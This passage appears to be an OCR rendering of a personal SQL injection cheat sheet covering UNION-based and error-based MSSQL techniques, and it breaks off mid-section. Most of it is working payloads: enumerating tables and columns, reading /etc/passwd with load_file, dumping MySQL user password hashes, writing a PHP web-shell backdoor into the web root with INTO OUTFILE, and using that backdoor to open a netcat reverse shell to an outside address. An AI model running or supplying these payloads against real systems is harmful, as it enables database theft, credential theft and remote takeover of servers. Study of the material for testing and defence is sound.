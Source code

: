 ```

Show all columns from the table “users” in the database with UNION:
```
http://192.168.160.10/debug.php?id=1 union select all 1,2,column_name from information_schema.columns where table_name=’users’
```

Use load_file() function to cat a file through SQLi:
```
php?xxx=9999999 union select 1,load_file(‘/etc/passwd’),3,4,5
```

Use into OUTFILE to write to a file with UNION:
```
http://192.168.160.10/debug.php?id=1 union select all 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
This writes a php backdoor into the web server root directory, from then we can achieve code exec with:
```
http://192.168.160.10/backdoor.php?cmd=nc.exe 192.168.119.160 8888 -e cmd.exe
```

Show hostname, user, hashed password of a database from union SQLi:
```
php?xxx=9999999 union select 1,(select group_concat(host,user,password) FROM mysql.user),3,4,5,6,7
```

### MSSQL Injection (error based):
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md
https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MSSQL%20-%20Error%20Based%20SQLi

Check for database version: @@version, user: user_name() and: db_name() name with:
```
and 1 in (select db_name())
```
db_name() can be iterate with db_name(0), db_name(1), etc. to show different databases.

Check for table names in a database:
```
and 1 IN (select top 1 cast(name as varchar(4096)) from $DB_NAME..sysobjects where xtype = 'U')
```
Check for other table names:
```
and 1 IN (select top 1 cast(name as varchar(4096)) from $DB_NAME..sysobjects where xtype = 'U' and name not in ('$TABLE_NAME'))
```

Check for column names in a table:
```
and 1 IN (select top 1 cast($DB_NAME..syscolumns.name as varchar(4096)) from $DB_NAME..syscolumns, $DB_NAME..sysobjects where $DB_NAME..syscolumns.id=$DB_NAME..sysobjects.id and $DB_NAME..sysobjects.name='$TABLE_NAME')
```
(wtf right?)

OR
```
and 1 IN (select top 1 column_name from information_schema.columns where TABLE_NAME=cast(0x636c75625f6d656d62657273 as varchar))
```
where the 0x part is table name in hex.

Check for the next column in a table:
```